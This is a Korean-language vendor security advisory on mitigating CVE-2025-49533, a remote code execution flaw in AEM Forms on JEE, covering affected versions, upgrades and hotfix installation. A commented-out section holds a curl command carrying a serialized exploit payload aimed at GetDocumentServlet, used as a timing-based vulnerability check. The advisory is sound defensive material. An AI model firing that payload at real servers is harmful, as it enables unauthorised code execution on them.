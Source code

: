 ```yaml
---
title: JEE의 AEM Forms에 대한 원격 코드 실행 취약성 완화(CVE-2025-49533)
description: JEE의 AEM Forms에 대한 원격 코드 실행 취약성 완화(CVE-2025-49533)
contentOwner: khsingh
products: SG_EXPERIENCEMANAGER/6.5/FORMS
solution: Experience Manager, Experience Manager Forms
feature: Developing
role: Admin
hidefromtoc: true
hide: true
source-git-commit: 6feebde8e1a2c89599f04e10e3e2a884a6202575
workflow-type: tm+mt
source-wordcount: '720'
ht-degree: 0%

---
```



# JEE의 AEM Forms에 대한 원격 코드 실행 취약성 완화(CVE-2025-49533)

이 문서에서는 비보안 서블릿을 통해 인증되지 않은 코드 실행을 허용할 수 있는 JEE의 AEM Forms에서 심각한 보안 문제(CVE-2025-49533)를 해결하는 방법에 대한 지침을 제공합니다.

## AEM Forms 배포 유형 이해

이 취약성은 다른 AEM Forms 배포에 다르게 영향을 줍니다. 배포 유형을 이해하는 것은 적절한 완화 단계를 결정하는 데 중요합니다.

### 영향을 받는 버전

* 6.0부터 6.5까지의 JEE의 모든 AEM Forms 버전이 이 취약성의 영향을 받습니다. AEM Forms 6.5와 해당 서비스 팩만 현재 유지 관리 및 지원됩니다. 다른 모든 버전(6.0-6.4)은 EOL(수명 종료)에 도달했습니다.

### 버전 수정

* AEM 6.5 Forms 서비스 팩 23(핫픽스 포함)을 사용하여 취약점을 수정했습니다.

### JEE 배포에서 공동 배포와 독립형 AEM Forms 비교

**공동 배포(AEM Forms + CQ EAR):**

* AEM Forms JEE와 AEM(CQ) 작성자 및 게시 엔터프라이즈 애플리케이션 아카이브(EAR)는 모두 동일한 애플리케이션 서버에 함께 배포됩니다
* Forms 기능과 AEM 컨텐츠 관리 기능을 모두 갖춘 통합 환경 제공

JEE 독립 실행형 **AEM Forms:**

* AEM Forms은 JEE 구성 요소만 있고 AEM EAR이 없는 애플리케이션 서버에 배포됩니다.
* AEM Forms의 JEE 관련 기능 및 기능으로 제한

### 배포 유형을 식별하는 방법

배포 유형을 확정적으로 확인하려면 애플리케이션 서버에 실제로 배포되는 객체를 확인합니다. 일반적으로(이에 국한되지 않음) 서버의 관리 콘솔을 통해.

**공동 배포된 표시기:**

* 서버에서 `/lc` 끝점에 액세스할 수 있습니다(예: `https://your-server/lc`).
* AEM 작성자/게시 엔드포인트에 액세스할 수 있습니다.
* URL 구조에는 `/content/`, `/apps/`, `/etc/`과(와) 같은 AEM 경로가 포함됩니다.
* AEM 컨텐츠 관리 기능은 Forms과 함께 사용할 수 있습니다

**독립 실행형 표시기:**

* 관리자 UI 인터페이스에만 액세스할 수 있습니다.
* AEM 작성자/게시 기능 없음
* Forms JEE별 URL 및 인터페이스로 제한됨


## 영향을 받는 버전

| 제품 | 완화가 필요한 버전 | 핫픽스 대상 버전 |
|---------|-----------------------------|-----------------------------|
| JEE의 Adobe Experience Manager 6.5 Forms | JEE의 모든 Adobe Experience Manager 6.5 Forms 독립형 설치 | AEM 6.5 서비스 팩 18 - 서비스 팩 23 |

## 해결 방법

### 버전별 솔루션

| AEM Forms 버전 | 필수 작업 |
|---|---|
| AEM 6.5 Forms 서비스 팩 18 - AEM 작성자 또는 게시 EAR이 공동 배포된 서비스 팩 22 | [AEM 6.5 서비스 팩 23 이상으로 업그레이드](/help/release-notes/release-notes.md) |
| AEM 6.5 Forms 서비스 팩 18 - 서비스 팩 23(AEM 작성자 또는 게시 없이) EAR이 공동 배포됨(JEE 배포의 독립형 AEM Forms용) | [핫픽스 적용](#apply-the-hotfix) |
| AEM 6.5 Forms 서비스 팩 17 및 이전 | &#x200B;1. [AEM 6.5 서비스 팩 23 이상으로 업그레이드](/help/release-notes/release-notes.md) <br> 2. JEE 배포의 독립형 AEM Forms의 경우 [핫픽스를 적용](#apply-the-hotfix)하십시오. |

> **참고**: AEM Forms은 공식적으로 최신 서비스 팩 6개만 지원합니다. 이전 버전의 사용자는 먼저 최신 서비스 팩으로 업그레이드한 다음 필요한 보안 조치를 구현해야 합니다.

## 배포 고려 사항

### 클러스터된 환경의 경우

클러스터형 배포 작업 시:

* 클러스터의 **모든 노드**&#x200B;에 핫픽스 설치 적용
* 모든 서버에서 동일한 핫픽스 버전을 사용하여 일관성 유지
* 서비스를 다시 시작하기 전에 모든 노드에 대한 전체 업데이트
* 확인 단계를 사용하여 각 노드에서 개별적으로 수정 사항을 확인합니다

### 단일 노드 환경의 경우

JEE의 AEM Forms 독립형 배포로 작업할 때:

* 관리할 추가 노드가 없으므로 간소화된 프로세스를 따르십시오.
* 지침에 따라 모든 핫픽스 설치 단계를 완료합니다

<!-- ## Vulnerability Verification

Before implementing the fix, verify if your system is vulnerable by executing the following tests:

### Test Commands

#### 1. Test with Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=H4sIAAAAAAAAAK1WTWxbRRCetR3bsZI2P80fhf4HkpS%2Bl5C2aXFEyA9tXV5IUEw4%2BGCtnxfnlffX3X3E6YEDElKvCC4ckRAcKIdISFQckLhy5gRCQkLigAQcygGp4md2nxOnIWqSNpH8dndmd76Zb2dmc%2Bc3aBEc%2Bm7Qt6gRScc1FrkTcEeuvRqxiH3w%2FegX96feWU9CogAp4dxiFuTswAsppzLgEnotddJUJ83ZTXm%2BHgJAAg2fDXjNoCG1V5iB57zAF0aFUV8dEMYMzpqnfv7o9q%2Fi1MfXEpB4AOUmvA3EgmzIg5BxuSahK0Z1qV8zlyR3%2FBoiItrUDmh24LrMlk4837ApjAZuxWVND%2B7%2F%2BeHgXX99IgFQDyV0BJEMI7kY4zpMrKYwrCQCPY%2BWDBH5xhbAOkV%2FDMeXjPvUNerClbYhOa0bReaFLpVMFHBsfX3hG%2F%2FOZ%2BNJSBegvez4VebLVyKvwngBDpXxgC9cJgsor5cgV66sSWYHVSYkJEulmRKky7ZLBS67SltomFWyvAUtZZ96TFGWsqCzvD2CB2%2BsKY9vDP7Fv4hroJf%2FHuip1X6IuVC3ifJEaebOvb6%2F0tniTw1x%2BtK3%2F3z1Naqfg%2FEMjBEYXxOBYNyhrhnSNTegVRFjXaXVGpPizJKMKsVGkIvxjgykCLyIlJpIqYmUmjGlpqbU3KDU1JSaPPKl4zFzuiKQLFtuGMtAmsARHZwTmEvaB%2BeWumACHbFLy4wLTITXCnMEyHUC7bOYFZL6cpm6EWv5%2FMT799778Y8XCKQnHd%2BROEkODS8TSM3iBeQgCR1t0AbtBA5bjs%2FiSyvGCF1WYCMARRhcN4QpueIIAhesRyAlT6BVJ8MbAfcI8CFrrwTNLcznSzvu9tzmXtEgiPEmV6pKrlG%2F6jKeV3HnXqrbLNS1k4EBApf36sJGLJvnCWSrgR15mOsEzu0rFDy6EvuEVM48fmAEPtkfl7siVqVnzhXnp%2BuOKKBId8AD4T%2FrNMypHHoULwhkGtwRmD4A5nJLQcRtdsVR2d3WyF5D1RwuC77PuO5DDNPlGQLHd0l7At07JD6GPWm7jfrraHa44gpnqleMEHyyXMZCrK%2Bh68PLbfAsnMvBWTCwoJcktd%2Bcp2GjAJ9serC4it6NTYxdnLh8cfzC%2BbFRbFbHrIfp83ASsAPgrwV%2FT0AGsji2ql4IOUjhHHsBfg%2BhxMSR4Ngy8iUcXtdbOvGb1kITuvDbFm%2BAbuyVgPMe6MVdfThXpvq1mSn1vijtdhPntYkTsbJhArRXR7UeQ4Wn8IQye%2Bx%2FZgt6tYPZS9rsSKzc0exxBE3o2Uk4hfBZGN4MWq2Vrv1TSBKrs%2Fv2u3fBXNebR3UgROlPa8wzMIhjTtP0NAxBa6TeqA7c%2B93mC3I0AwkCp3drlleCQL8YW3JjoXID3%2FjHfwFu%2FuL8Puld7T%2FoF2Bw1xcAg9pffQ3spb6SaPahWUz2nsWT27L4iNb36G%2BvTrjYXD%2BCtOJ%2FTymsKB6uEqirm26v%2FwfLba%2FhawoAAA%3D%3D
```

#### 2. Test with Non-Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=1234
```

**Note**: Replace `${FORMS_HOST}` with your actual Forms server hostname and port.

### Vulnerability Confirmation
* **Vulnerable System**: Response time ≥ 5 seconds for exploitable payload
* **Secure System**: Response time ~600ms for both payloads
* **Indicator**: Significant difference in response times confirms the vulnerability -->

## 완화 단계

### CQ EAR이 함께 배포된 서버의 경우

* AEM EAR이 JEE 인스턴스 내에 공동 배포되었는지 확인
* AEM 작성자 또는 게시자가 EAR을 공동 배포한 경우 [AEM 6.5 서비스 팩 23 이상으로 업그레이드](/help/release-notes/release-notes.md)

### CQ EAR을 공동 배포하지 않은 서버의 경우(JEE 독립형 버전의 AEM Forms)

#### AEM Forms 버전 확인

1. AEM Workbench에 대한 관리 액세스 권한이 있는지 확인합니다.
1. [AEM Forms 버전을 확인하세요](https://experienceleaguecommunities.adobe.com/t5/adobe-experience-manager/how-find-the-aem-forms-version-using-the-aem-admin-or-system/m-p/603733) 서비스 팩 23을 통해 AEM 6.5 Forms 서비스 팩 18입니다.

#### 핫픽스 적용

1. **핫픽스 다운로드:**
   * Adobe Software Distribution에 액세스하여 핫픽스 다운로드
   * 로컬 컴퓨터에 핫픽스 파일 저장
   * 다운로드한 파일의 무결성 확인

2. **핫픽스 설치:**
   * **AEM 워크벤치** 열기
   * 영향을 받는 AEM Forms 서버에 연결
   * **창 → 구성 요소 보기→1}(으)로 이동**
   * 구성 요소 보기에서 마우스 오른쪽 단추를 클릭하고 &quot;구성 요소 설치&quot;를 선택합니다.
   * 핫픽스 파일 검색 및 선택
   * 설치 마법사의 안내에 따라 완료될 때까지 기다립니다.

3. **대기 및 유효성 검사:**
   * 모든 서비스가 완전히 초기화될 때까지 대기

#### 문제 해결

**일반적인 문제:**

* 모든 AEM Forms 서비스가 올바르게 시작되었는지 확인
* 응용 프로그램 서버 로그에서 설치 오류 확인

